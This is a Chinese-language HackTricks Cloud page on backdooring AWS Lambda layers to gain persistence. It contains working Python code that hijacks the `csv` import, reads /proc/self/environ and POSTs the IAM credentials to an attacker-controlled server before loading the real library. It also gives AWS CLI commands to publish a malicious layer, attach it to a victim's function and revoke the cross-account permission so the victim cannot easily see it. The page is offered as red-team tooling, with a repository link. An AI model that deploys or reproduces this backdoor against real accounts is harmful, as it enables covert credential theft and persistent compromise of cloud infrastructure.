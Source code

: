 # AWS - Lambda层持久性

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享黑客技巧**。

</details>
{% endhint %}

## Lambda层

Lambda层是一个.zip文件存档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含**五个层**。当您在函数中包含一个层时，**内容会被提取到执行环境中的`/opt`目录**中。

**默认情况下**，您创建的**层**对您的AWS账户是**私有**的。您可以选择与其他账户**共享**一个层，或将该层**公开**。如果您的函数使用了另一个账户发布的层，您的函数可以在该层被删除后继续使用该层版本，或在您被撤销访问该层的权限后继续使用。但是，您不能使用已删除的层版本创建新函数或更新函数。

部署为容器映像的函数不使用层。相反，您在构建映像时将您喜欢的运行时、库和其他依赖项打包到容器映像中。

### Python加载路径

Python在Lambda中将使用以下加载路径：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查第二和第三位置被目录占用，其中**lambda层**解压缩其文件：**`/opt/python/lib/python3.9/site-packages`**和**`/opt/python`**

{% hint style="danger" %}
如果攻击者成功**后门**一个已使用的lambda **层**或**添加一个**在加载常用库时**执行任意代码**，他将能够在每次lambda调用时执行恶意代码。
{% endhint %}

因此，要求如下：

- **检查**受害者代码中**加载的库**
- 创建一个带有lambda层的**代理库**，将**执行自定义代码**并**加载原始**库。

### 预加载的库

{% hint style="warning" %}
在滥用这种技术时，我遇到了一个困难：当您的代码被执行时，某些库已经在python运行时中**加载**。我原本期望会发现像`os`或`sys`这样的东西，但**甚至`json`库也被加载了**。\
为了滥用这种持久性技术，代码需要**加载一个在代码执行时未加载的新库**。
{% endhint %}

使用类似以下代码的python代码，可以获取在lambda中python运行时中**预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
并且这是**列表**（检查是否已经存在诸如 `os` 或 `json` 这样的库）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下是**Lambda默认安装的库列表**：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda层后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将**在`csv`库的导入中设置后门**。

为此，我们将在Lambda加载的路径中创建包含文件**`__init__.py`**的**csv目录**：**`/opt/python/lib/python3.9/site-packages`**\
然后，当Lambda被执行并尝试加载**csv**时，我们的**`__init__.py`文件将被加载和执行**。\
这个文件必须：

- 执行我们的有效负载
- 加载原始的csv库

我们可以使用以下代码实现：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，在路径**`python/lib/python3.9/site-packages/__init__.py`**中创建一个包含此代码的zip文件，并将其添加为一个Lambda层。

您可以在[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)找到此代码。

集成的payload将在**第一次调用时或Lambda容器重置后**（代码更改或冷启动Lambda）**将IAM凭据发送到服务器**，但也可以集成**其他技术**，例如以下内容：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用**来自外部帐户的Lambda层**。此外，即使Lambda没有权限，也可以让Lambda使用来自外部帐户的层。\
还请注意，**Lambda可以拥有的最大层数为5**。

因此，为了提高此技术的多功能性，攻击者可以：

* 对用户的现有层进行后门操作（没有外部内容）
* **在自己的帐户中创建**一个**层**，授予**受害者帐户访问权限**以使用该层，在受害者的Lambda中**配置**该**层**，然后**移除权限**。
* **Lambda**仍然可以**使用该层**，而**受害者**将没有任何简单的方法来**下载层的代码**（除非在Lambda内部获取反向shell）
* 受害者将看不到使用**`aws lambda list-layers`**列出的**外部层**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
